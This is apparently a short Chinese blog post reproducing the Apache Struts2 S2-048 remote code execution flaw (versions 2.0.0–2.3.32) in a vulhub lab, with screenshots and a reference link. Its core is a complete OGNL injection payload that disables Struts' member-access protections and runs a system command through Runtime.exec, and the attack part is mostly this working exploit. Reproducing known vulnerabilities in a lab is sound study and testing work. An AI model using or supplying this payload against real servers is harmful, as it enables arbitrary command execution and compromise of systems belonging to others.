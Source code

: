 ```yaml
---
title: S2-048 远程代码执行漏洞
date: 2020-08-10 21:58:10
categories: 漏洞复现
tags: struts2
---
```


#### 影响版本

>2.0.0 - 2.3.32

<!--more-->

#### 复现过程

1. 访问**Integration/Struts 1 Integration**

   ![](http://qn.laohuan.xin/2020-08-10_21-37-48.png)

2. 填入POC

   ```java
   %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
   ```

   

3. 返回结果

   ![](http://qn.laohuan.xin/2020-08-10_21-38-08.png)

#### 参考链接

<http://github.com/vulhub/vulhub/blob/master/struts2/s2-048/README.zh-cn.md/>

